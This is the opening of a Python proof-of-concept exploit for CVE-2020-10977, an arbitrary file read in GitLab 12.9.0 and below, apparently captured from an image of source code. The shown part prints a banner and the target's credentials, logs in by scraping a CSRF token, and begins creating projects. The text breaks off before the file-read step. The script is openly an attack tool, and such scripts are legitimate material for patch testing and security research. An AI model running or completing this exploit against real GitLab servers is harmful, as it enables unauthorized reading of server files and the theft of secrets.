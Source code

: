 ```
 
def banner():
  print('-'*34)
  print('--- CVE-2020-10977 ---------------')
  print('--- GitLab Arbitrary File Read ---')
  print('--- 12.9.0 & Below ---------------')
  print('-'*34 + '\n')
  print('[>] Found By : vakzz       [ https://hackerone.com/reports/827052 ]')
  print('[>] PoC By   : thewhiteh4t [ https://twitter.com/thewhiteh4t      ]\n')
 
def show_info():
  print('[+] Target        : ' + base_url)
  print('[+] Username      : ' + username)
  print('[+] Password      : ' + password)
  print('[+] Project Names : {}, {}\n'.format(project_names[0], project_names[1]))
 
def login():
  print('[!] Trying to Login...')
  try:
    login_req = session.get(login_url, verify=False)
  except Exception as exc:
    print('\n[-] Exception : ' + str(exc))
    sys.exit()
 
  login_sc = login_req.status_code
  if login_sc == 200:
    login_resp = login_req.text
    soup = BeautifulSoup(login_resp, 'html.parser')
    meta = soup.find_all('meta')
 
    for entry in meta:
      if 'name' in entry.attrs:
        if entry.attrs['name'] == 'csrf-token':
          csrf_token = entry.attrs['content']
  else:
    print('[-] Status : ' + str(login_req.status_code))
    sys.exit()
 
  login_data = {
    'utf8': '✓',
        'authenticity_token': csrf_token,
        'user[login]': username,
        'user[password]': password,
        'user[remember_me]': 0
  }
 
  login_req = session.post(login_url, data=login_data, allow_redirects=False)
  if login_req.status_code == 302 and 'redirected' in login_req.text:
    print('[+] Login Successful!')
  else:
    print('[-] Status : ' + str(login_req.status_code))
    print('[-] Login Failed!')
    sys.exit()
 
def create_project(project):
  global csrf_token
  print('[!] Creating {}...'.format(project))
  try:
    project_req = session.get(project_url, verify=False)
  except Exception as exc:
    print('\n[-] Exception : ' + str(exc))
    sys.exit()
  project_resp = project_req.text
```